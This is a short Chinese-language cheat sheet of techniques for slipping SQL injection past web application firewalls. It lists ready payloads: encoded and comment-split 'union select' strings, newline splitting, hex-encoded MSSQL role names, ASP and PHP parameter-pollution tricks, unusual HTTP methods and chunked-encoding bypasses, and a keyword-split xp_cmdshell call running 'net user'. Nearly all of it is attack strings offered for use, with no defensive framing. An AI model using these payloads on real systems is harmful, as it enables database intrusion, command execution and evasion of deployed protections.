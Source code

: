   注入语句全部URL编码

- Unicode编码

  un%u0069on sel%u0065ct pass f%u0072om admin li%u006dit 1

- 数据库的一些bypass

  mysql: 内联注释： select->/\*!select\*/这样写法

  用'?'、'+'、'/**/'、'()'代替空格： select?user?from?user?union?select(1),(2)

  MySQL不能select->sele/**/ct这么写，MSSQL松散型问题可以这样写

- GET参数SQL注入%0A换行污染绕过

  ?id=1%0Aunion%0Aselect 1,2,3,4

- MSSQL:

  - 用HEX绕过，一般的IDS都无法检测出来：

  0x730079007300610064006D0069006E00 = hex(sysadmin)

  0x640062005F006F0077006E0065007200 = hex(db_owner)

  - 运用注释语句绕过

    /**/代替空格、分割敏感词 U/\*\*/NION

- 复参数绕过

  asp的参数复用  &id=xx -> ,xx 这是asp的一个BUG。

  .asp?id=1 union select 1,2,3&id=4 from admin



​		php的变量覆盖绕过：

​		.php?id=0&id=7 and 1=2     //&id=0 -> &id=7 and 1=2并没有像asp那样有','出现

​		部分WAF允许变量覆盖，相同变量赋了不同的值，覆盖了WAF的cache，但是**后端会优先处理最先前的值**

- 异常Method绕过

  还有HTTP/1.0    HTTP/0.9

  绕过那种只针对某几种方法 比如GET、POST方法设置策略的WAF

- 冷门函数/标签绕过

- WAF规则、策略阶段的绕过

  - 关键字拆分

    exec('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')

  - 请求方法差异  GET->POST

  - HTTP版本 0.9    1.1

  - 编码绕过、chunked编码绕过、超大数据包绕过、分块传输绕过**（[协议未覆盖](https://m.freebuf.com/news/193659.html)）**
